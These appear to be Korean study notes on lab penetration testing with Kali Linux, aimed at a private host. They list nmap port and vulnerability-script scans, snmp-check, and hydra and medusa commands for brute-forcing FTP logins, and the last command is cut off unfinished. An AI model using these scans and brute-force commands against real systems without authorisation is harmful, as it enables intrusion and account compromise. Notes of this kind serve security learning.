

---
**칼리 설치**

	apt autoremove -y fcitx5 fcitx5-hangul


	Kali의 목차는 MITRE ATT&CK의 목차와 완벽하게 일치한다.


**모의 침투 테스트 절차**

	1. 탐색
	2. 정보 수집 - Maltego, shodan, NMAP


**NMAP**

```bash
nmap -sT -v -O -p0-65535 10.0.0.31 > metas3.txt
```

	0-65535까지 tcp인 모든 포트 탐색
	리디렉션 기호로 탐색 결과를 꼭 저장해주는게 좋음
	

```bash
snmp-check 10.0.0.31
```




	해결방법
	public -> 다른이름 으로 변경


nmap --script ftp-brute.nse 10.0.0.31

nmap --script smb-vuln* 10.0.0.31


---
metas3
pass.txt
user.txt

생성 후 공격 진행

```bash
hydra -L user.txt -P pass.txt ftp://10.0.0.31

medusa -U user.txt -P 
```

